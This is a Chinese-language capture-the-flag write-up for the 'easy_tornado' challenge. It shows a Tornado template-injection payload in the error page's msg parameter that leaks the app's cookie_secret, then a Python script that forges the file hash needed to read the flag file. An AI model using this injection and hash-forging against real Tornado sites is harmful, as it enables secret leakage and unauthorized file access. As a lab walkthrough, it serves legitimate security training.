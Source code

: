 #python  #flask #ctf
### [护网杯 2018]easy_tornado

----

```python
/flag.txt
flag in /fllllllllllllag

/welcome.txt
render

/hints.txt
md5(cookie_secret+md5(filename))
```

我们已经有了整体的思路，现在要做的就是寻找`cookie_secret`，同时我贴一下url格式：

```
http://43d5032b-3241-4fa1-b247-3a2f8bf407bb.node5.buuoj.cn:81/file?filename=/flag.txt&filehash=32f696e969936edbd879e9a7862f4b42
```

我们可以修改任意值，发现报错

```
http://43d5032b-3241-4fa1-b247-3a2f8bf407bb.node5.buuoj.cn:81/error?msg=Error
```

根据题目我们一开始可以判断应该是模板注入类型题目：

之前的注入手段不行，我们这里采用tornado中特殊参数去查看cookie_secert

`{{handler.application.settings}}`或者`{{handler.settings}}`

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '8e0ec61c-e16c-4ed2-a4ca-f51cd96f3efe'}
```



编写脚本得到hash值：

```python
import hashlib
def md5_encode(data):
    md5_hash = hashlib.md5()
    md5_hash.update(data.encode('utf-8'))
    md5_digest = md5_hash.hexdigest()
    return md5_digest

#md5(cookie_secret+md5(filename))
cookie_secert = "8e0ec61c-e16c-4ed2-a4ca-f51cd96f3efe"
res = md5_encode(cookie_secert+md5_encode("/fllllllllllllag"))
print(res)
#f7e4762bc050ad45ad778474c05eb310
```

最后访问：

```
http://43d5032b-3241-4fa1-b247-3a2f8bf407bb.node5.buuoj.cn:81/file?filename=/fllllllllllllag&filehash=f7e4762bc050ad45ad778474c05eb310
```

得到flag!!!